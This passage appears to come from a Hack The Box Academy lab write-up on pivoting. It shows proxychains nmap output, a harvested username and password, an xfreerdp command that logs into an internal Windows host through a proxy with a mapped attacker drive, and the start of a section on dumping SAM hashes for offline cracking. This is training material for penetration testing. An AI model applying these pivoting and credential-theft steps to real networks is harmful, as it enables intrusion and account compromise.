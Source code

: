 >Proxychain NMAP Scan results:  

```
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```  

>Remote desktop via Proxychains with the username `mlefay` and the password of `Plain Human work!` obtain in the text file `for-admin-eyes-only` on ubuntu server.  
>XfreeRDP session with dynamic map drive to the local kali attack host path, `/home/kali/Downloads/htb/academy/webadmin`.  

```
proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:'Plain Human work!' /dynamic-resolution /cert:ignore /drive:kali-drive,/home/kali/Downloads/htb/academy/webadmin
```  

>Enumeration of the windows server `pivot-srv01.inlanefreight.local` reveal is part of Active Directory Domain and has 2 network interfaces:
* 172.16.5.35
* 172.16.6.35  

![pivot-skills-assessment-pivot-srv01](/images/pivot-skills-assessment-pivot-srv01.png)  

### Attacking SAM  

>[Attacking SAM](https://academy.hackthebox.com/module/147/section/1315)
>With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline.  
